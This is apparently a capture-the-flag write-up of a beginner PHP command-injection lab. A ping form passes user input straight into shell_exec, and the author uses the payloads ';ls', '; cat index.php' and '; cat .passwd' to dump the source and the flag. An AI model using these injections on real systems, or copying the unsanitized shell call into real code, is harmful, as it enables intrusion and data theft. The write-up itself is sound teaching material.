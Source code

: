 # PHP-command injection


- This is a basic command injection as other labs for beginner to know how command injection works
- Firstly, i try to input the IP 8.8.8.8

```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=2.13 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=117 time=1.91 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=117 time=1.95 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.906/1.995/2.132/0.098 ms
//[?] SO it ping to 8.8.8.8 right !
```

[?] Now we know the command is ping, but how to run 2 commands on the terminal ?

- We can use ‘;’ , & , ||
- For more detail, i have writen in cmd injection of cyber jutsu course

[*] Testing time

- i use the payload: ;ls 

`index.php`

- Now we know this dir have file source code index.php:
- I want to show all contents in index.php: ; cat index.php

```
<html>
<head>
<title>Ping Service</title>
</head>
<body>
<form method="POST" action="index.php">
        <input type="text" name="ip" placeholder="127.0.0.1">
        <input type="submit">
</form>
<pre>
<?php 
//[*] var flag gets contens from . passwd right !
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
</pre>
</body>
</html>
```

- The payload: ; cat .passwd

**Final result:** S3rv1ceP1n9Sup3rS3cure
